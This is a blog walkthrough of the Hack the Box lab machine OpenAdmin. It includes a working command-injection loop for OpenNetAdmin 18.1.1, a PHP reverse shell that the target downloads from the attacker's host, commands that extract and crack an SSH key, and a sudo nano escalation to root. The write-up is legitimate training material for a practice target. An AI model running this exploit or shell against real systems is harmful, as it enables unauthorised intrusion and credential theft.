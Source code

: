 +++
author = "Nick"
categories = ["hack the box", "CTF", "easy", "CVE", "reverse shell", "PHP", "curl", "ssh", "john", "ssh2john", "GTFObins", "nano"]
date = 2020-05-02T14:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/01/infocard.png"
slug = "hack-the-box-openadmin"
summary = "Welcome back! Today we are doing the Hack the Box machine - OpenAdmin. The machine is listed as an easy Linux machine. Let's jump in!"
tags = ["hack the box", "CTF", "easy", "CVE", "reverse shell", "PHP", "curl", "ssh", "john", "ssh2john", "GTFObins", "nano"]
title = "Hack the Box - OpenAdmin"
url = "/hack-the-box-openadmin"

+++


Welcome back! Today we are doing the Hack the Box machine - OpenAdmin. The machine is listed as an easy Linux machine. Let's jump in!

As always, we do our initial `nmap` scan: `nmap -sC -sV -oA initial 10.10.10.171`

We get back some basic results:
```
Nmap scan report for 10.10.10.171
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's see what's being hosted on port 80. We  get the defaul Apache install page. A quick peek at the source doesn't show anything unusual. We start up `gobuster` to start enumerating the service.

Command:
`gobuster dir -u 10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We get back two results: `music` and `artwork`. First we'll head over to `music` and take a look. We starte numerating the page manually. Looking at the source, JS libraries and the contact form. While we are doing this we see a link to `../ona`. When we browse to it we get a `OpenNetAdmin` page.

![](/images/2020/01/image-24.png)

As the title of the box implies, we should start looking at this for vulnerabilities. First we'll `seachsploit` for any. If those results seems slim, we'll start looking around the net for further results.

Command:
`searchsploit opennetadmin`

![](/images/2020/01/image-25.png)

We know that we are running version 18.1.1, so these all fit our criteria. Let's load up `Metasploit` and see what works for us. When we search inside `Metasploit` we don't see the module listed. Hmmm, well, let's download it from [exploit DB](https://www.exploit-db.com/exploits/47691) and import it into our `Metasploit Framework'.

To do this we need to copy the exploit from `searchsploit` into our `Metasploit Framework` directory set. Metasploit keeps the modules it uses here (on Kali Linux):

`/usr/share/metasploit-framework/modules`

Inside this path you will see that it's broken down into the module types. In this case, I'm going to copy the exploit into the `/exploits/linux/http/` location.

Command:
`cp $(locate 47772.rb) /root/.msf4/modules/exploits/linux/http/opennetadmin.rb`
then
`updatedb`

You can now relaunch `Metasploit`. Once it has been launched we issue `reload_all`. This will update our modules in all paths specified. You should see the exploit count increase by one.

Now we can `use` the module.

Command:
`use exploit/linux/http/opennetadmin`

We only need to set our `lhost` and `rhost` for this module. Then we `run` it. But nothing happens. Damn it. Re-run it, still nothing. Ok, let's try the shellscript that was shown in the earlier searchsploit results. We modify the script to look as such:

```bash
#!/bin/bash

URL="http://10.10.10.171/ona/login.php"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

![](/images/2020/01/openadmin_shell_cve.gif)

Now that we have the ability to execute remote commands. Let's turn this into a shell. I tried a few things to forward a shell out but the standards didn't work. So I hosted the basic pentest monkey shell and downloaded to the target system. 

Command:
`python -m SimpleHTTPServer 80`

Then on the remote server:
`wget 10.10.14.200/sh3ll.php`

We then navigated to the `sh3ll.php` URL and obtained a reverse shell.

![](/images/2020/01/openadmin_www_shell.gif)

Now that we have a more solid shell. We can enumerate internally a bit more. We host `linpeas` on our machine and download that as well. We go through the results and see some backup files:

![](/images/2020/01/image-26.png)

We send these files back to our attacking machine. Turns out, they're nothing. We keep looking at the items that show in our output. We see the `database_settings.inc.php` file. We look inside and see a password.

![](/images/2020/01/image-27.png)

We try to use `su` to change our user. First up, `Jimmy`. It works! We try to `SSH` as Jimmy as well, that works too. Great, no need for a webshell anymore. Now we start our enumeration process as Jimmy. We see there is something running on port 52846. We can curl it and get a login form. We know from our previous enumeration that there is a site called `internal`. Inside this are some files. `main.php`, `internal.php` and `logout.php`.

We see that the `main.php` code kicks out the content of Joanna's SSH key.

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

So based on this we can `curl` this port and send our data. The hint is given as 'Don't forget you "ninja" password', eluding to the password we already found.

Command:
`curl -X POST -F 'username=jimmy' -F 'password=n1nj4W4rri0R!' http://127.0.0.1:52846/main.php`

We get back Joanna's SSH private key!

![](/images/2020/01/openadmin_curl_ssh.gif)

With the key we now will send it through `ssh2john` and toss the rockyou list at it.

Command:
`ssh2john before_hash > cleaned_hash`

Then we'll send this file to `john` to crack.

Command:
`john cleaned_hash --wordlist=/usr/share/wordlists/rockyou.txt`

![](/images/2020/01/image-28.png)

We get a password of `bloodninjas` back. Now let's try and log in as Joanna.

Command:
`ssh -i id_rsa joanna@10.10.10.171`

We enter the password when we are pompted and we are in!

![](/images/2020/01/image-29.png)

Now that we're in as the 'final' user. We grab our `user.txt` file and start our root based enumeration. The first thing we do is `sudo -l`.

![](/images/2020/01/image-30.png)

We see that leverage `nano` as root. Our first stop when we see this is always [GTFObins](https://gtfobins.github.io/). It seems quite a few people had issues with this. The breakdown of above is as follows:

Joanna can run `/bin/nano` as `sudo` ON the following: `/opt/priv`

![](/images/2020/01/openadmin_root_gtfo.gif" caption="Laggy root shell)

Another box down! This box was particularly unstable. Hopefully something was learned during this machine! If this walkthrough helped you, send some respect my way :) [HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



